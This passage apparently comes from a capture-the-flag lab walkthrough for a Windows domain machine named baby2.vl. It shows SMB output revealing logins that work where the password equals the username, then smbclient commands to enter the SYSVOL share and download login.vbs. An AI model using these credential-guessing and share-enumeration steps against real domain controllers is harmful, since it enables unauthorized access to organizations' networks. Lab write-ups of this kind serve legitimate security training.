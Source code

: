 ```output
SMB         10.10.77.235    445    DC               [+] baby2.vl\:melia.Griffiths (Guest)
SMB         10.10.77.235    445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.10.77.235    445    DC               [+] baby2.vl\library:library 


```

## Step 5 – Accessing SYSVOL Share and Downloading `login.vbs`

1. Connect to the SMB share:
    

```bash
smbclient //10.10.77.235/SYSVOL -U library
```

2. Enter the password for `library` when prompted.
    
3. List directories:
    

```bash
dir
```

You will see:

```bash
 baby2.vl
```

4. Navigate into `baby2.vl`:
    

```bash
cd baby2.vl dir
```


You will see:

```bash
  login.vbs
```

6. Download `login.vbs`:
    

```bash
get login.vbs
```

- The file is saved locally as `login.vbs`.
    

7. Exit the SMB session:
    

```bash
exit
```
